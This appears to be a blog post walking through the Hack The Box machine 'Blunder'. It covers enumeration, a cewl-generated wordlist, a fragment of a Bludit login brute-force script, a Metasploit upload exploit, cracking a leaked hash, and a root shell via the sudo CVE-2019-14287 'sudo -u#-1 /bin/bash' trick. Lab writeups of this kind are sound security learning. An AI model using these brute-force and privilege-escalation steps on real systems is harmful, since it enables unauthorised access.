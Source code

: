 ```yaml
---
layout: post
title:  "Blunder Writeup"
date:   2020-10-18 11:05:18 -0400
categories: HTB Writeup
---
```


# Blunder Writeup

This is my first real HTB writeup. Blunder is a good example of the importance of enumeration and knowledge of how to debug scripting errors.

## Scanning and Enumeration

First started with an nmap scan.

{% highlight bash %}
nmap -p- A -T4 -oN nmap.txt blunder.htb
{% endhighlight %}

After the scan was completed I saw that only port 80 was open on the machine.
Next step was to run a gobuster.

{% highlight bash %}
gobuster dir -u http://blunder.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x .txt,.php
{% endhighlight %}

After that was completed I found the /admin page. I inspected the source code for version info on the framework. Turns out it was running on bludit version 3.9.2.

![Bludit Version](https://tbernard97.github.io/blog/assets/Blunder/Bludit_version.png)

After doing some research I realized that there is a working exploit available for this version. Apparently the admin page was vulnerable to bruteforce. However I needed user names and passwords. I checked my gobuster output and found another interesting page called todo.txt

![todo.txt](https://tbernard97.github.io/blog/assets/Blunder/todo.png)

Apparently fergus needs images so there is a pretty good chance that he is the administrator.

This next step irritates me but is also somewhat amusing. We need a dictionary to run the bruteforce. After trying rockyou, common-passwords, and many other wordlists I forfitted and went to the forums. People kept mentioning a "cool sccript" and after looking into it I realized what I had to do.

Cewl is a password generation tool that reads a web page and generates a wordlist based off its contents.

{% highlight bash %}
cewl -w wordlist.txt -d 5 -m 10 10.10.10.191
{% endhighlight %}

This generates a wordlist in the working directory.

Next step was to get an exploit script going. Luckilly I found [this site](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) which had one available.

There was a slight problem however. Everytime I ran the code against the wordlist it found no results. It didn't throw any errors it just did not find a password. Now I was convinced that my wordlist was correct. But then it dawned on me. This is a logic error in the code, and this was going to be a pain in the ass to fix.

Several hours later I found out the issue. Apparently when cewl generates a wordlist it adds the metacharacter "\n" in between each word in the file to append line breaks. Now this is fine however we need to modify the script to deal with this.

{% highlight python %}
import requests

host = 'http://10.10.10.191'
login_url = host + 'admin/login'

def open_file(file):
  return [item.replace("\n", "") for item in open(file).readlines()]

username = 'fergus'
wordlist = open_file('/root/HTB/Active/Blunder/wordlist.txt')
{% endhighlight %}

The snippet above shows an item.replace function to remove those pesky metacharacters.

Once this was completed I ran the script and got credentials.


![creds](https://tbernard97.github.io/blog/assets/Blunder/creds.png)

Using these credentials I was able to access the admin dashboard which confirmed that they were valid.

![login](https://tbernard97.github.io/blog/assets/Blunder/dashboard.png)

## Exploitation

I was getting lazy after all that troubleshooting so I just used [this](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/bludit_upload_images_exec.rb) metasploit module to gain initial access.

Using this module I was able to get a shell.

![fergus shell](https://tbernard97.github.io/blog/assets/Blunder/fergus.png)

## Privesc to Hugo

After some basic enumeration (literrally just listed the home directory) I found two other users on the machine. Shaun is useless, he doesn't have a user.txt file however hugo does. Next step was to get creds for hugo. These are typically leaked in configuration files or databases. I used a simple find command to look for a users.php file under /var/www/bludit-3.9.2/

{% highlight bash %}
find /var/www/bludit-3.9.2/bl-content/ -type f users
{% endhighlight %}

After using that command I found Hugo's hash in the users.php file.

![users](https://tbernard97.github.io/blog/assets/Blunder/users.png)

You can literally google the hash and find out the password.

![hugo_pass](https://tbernard97.github.io/blog/assets/Blunder/hugo_pass.png)

## Privesc to root

A sudo -l will give the following output.

{% highlight bash%}
$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
{% endhighlight %}

I thank TheCyberMentor's Udemy course on Linux privesc for this. So this is an example of a machine vulnerable to CVE-2019-14287.

Basically on old versions of sudo appending a -U#-1 will trick the sudo command into interepreting the signed number as 0 when in reality it is something much much bigger.

This causes the machine give the ID of 0 to the command which is the ID for root. Because hugo is allowed to execute /bin/bash under sudo (I have no idea why someone would do this but whatever) abusing this vulnerability means you can get a root shell by typing the following.

{% highlight bash %}
$ sudo -u#-1 /bin/bash
root@blunder:/var/www/bludit-3.9.2/bl-content/tmp# id
id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/var/www/bludit-3.9.2/bl-content/tmp# cat /root/root.txt
cat /root/root.txt

{% endhighlight %}

## Takeaways

This was yet another fun troll box made by egotistcal. I like how his machines require more out of the box thinking than others so shout out to him.

For more info on CVE-2019-14287 click [here](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287).

